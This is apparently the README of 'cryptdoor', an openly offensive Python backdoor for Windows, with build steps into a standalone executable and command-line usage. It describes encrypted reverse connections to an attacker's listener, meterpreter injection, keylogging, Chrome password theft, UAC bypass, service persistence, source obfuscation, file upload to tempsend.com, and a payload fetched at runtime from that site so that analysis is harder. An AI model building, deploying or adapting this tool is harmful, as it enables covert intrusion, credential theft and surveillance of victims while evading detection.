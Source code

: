 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is implemented for windows using pyHook.
All traffic apart from traffic meterpreter makes are encrypted with AES.
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

        "C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

        "C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

        pip install pyinstaller pycrypto requests

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd promt and cd to wherever backdoor.py is.

        pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Usage
=========

        usage: ./cryptdoor.py [options]

        optional arguments:
          -h, --help            show this help message and exit
          -i HOSTNAME, --hostname HOSTNAME
                                Ip or hostname to connect back to.
          -p PORT, --port PORT  Port.
          -o, --obfuscate       Enable Obfuscation of source code.
          -a, --persistence     Enable Auto-persistence.
          -x, --proxy           Enable HTTP proxy connect.
          -b BACKDOORNAME, --backdoorname BACKDOORNAME
                                Name of backdoor (default backdoor.py).
          -s SERVERNAME, --servername SERVERNAME
                                Name of server (default server.py).


cryptdoor.py will make the backdoor and server.
The syntax is:

        ./cryptdoor.py -i host -p port

You can add a -a to attempt automatic persistence and obfuscation with -o:

        ./cryptdoor.py -i host -p port -a -o

host and port refer to the host and port of the listening server (attacker).
These are the options you have from within the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.
         tempsend file       -  Upload a file from remote pwd to tempsend.com

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 unpersist           -  Remove persistence and exit.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.
    	 proxyupdate file    -  Update proxy list from file.

Proxies
=========

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the stubs/backdoor.py script from line 310-311, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying will not work without one).

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x

HTTP proxying is acheived using:

https://github.com/Anorov/PySocks


Obfuscation
=========

Obfuscation of the backdoor source code is acheived using:

https://github.com/astrand/pyobfuscate

Remote payload
=========
The backdoor payload is hosted on tempsend.com and downloaded at runtime by the backdoor.py  
This means the actual backdoor code is not included in the final backdoor.py and is therefore resistant to analysis.
